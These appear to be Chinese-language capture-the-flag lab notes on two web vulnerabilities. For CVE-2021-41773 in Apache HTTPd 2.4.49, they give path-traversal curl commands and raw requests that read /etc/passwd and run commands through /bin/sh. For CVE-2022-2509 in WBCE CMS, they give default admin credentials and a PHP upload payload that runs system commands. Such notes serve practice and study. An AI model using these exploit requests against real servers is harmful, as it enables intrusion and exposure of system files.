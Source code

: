 

## [待]CVE-2021-41773 Apache HTTPd 2.4.49 路径穿越与命令执行漏洞

*靶标介绍：*

2021年10月5日，Apache发布更新公告，修复了Apache HTTP Server 2.4.49中的一个路径遍历和文件泄露漏洞（CVE-2021-41773）。 攻击者可以通过路径遍历攻击将 URL 映射到预期文档根目录之外的文件，如果文档根目录之外的文件不受“require all denied” 访问控制参数的保护，则这些恶意请求就会成功。除此之外，该漏洞还可能会导致泄漏 CGI 脚本等解释文件的来源。

```
curl -s --path-as-is "http://localhost:8787/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
curl -s --path-as-is "http://eci-2zee4ibl14pbhm9ar6a7.cloudeci1.ichunqiu.com/cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd"
```

上面的都不行

https://www.freebuf.com/articles/web/293172.html

https://github.com/inbug-team/CVE-2021-41773_CVE-2021-42013

 开启代理，上神器burpsuite就可以开搞了。

```
路径穿越
GET /icons/.%2e/%2e%2e/%2e%2e/%2e%2e/etc/passwd HTTP/1.1
```

![image](%E9%9D%B6%E5%9C%BA.assets/1635402390_617a429640cb19cd7ffee.png!small)

```
RCE
POST /cgi-bin/.%2e/%2e%2e/%2e%2e/%2e%2e/bin/sh HTTP/1.1
echo; ls（要执行的命令）
```

![image](%E9%9D%B6%E5%9C%BA.assets/1635402398_617a429e66e6fd4db57c4.png!small)

https://blog.qualys.com/vulnerabilities-threat-research/2021/10/27/apache-http-server-path-traversal-remote-code-execution-cve-2021-41773-cve-2021-42013





## CVE-2022-2509 WBCE CMS v1.5.2 RCE

*靶标介绍：*

WBCE CMS v1.5.2 /language/install.php 文件存在漏洞，攻击者可精心构造文件上传造成RCE

/admin admin/123456

add-ons -> languages ->选择文件

上传get_flag.php

```
<?php

system('cat /flag');
system('cat flag');
phpinfo();

?>
```
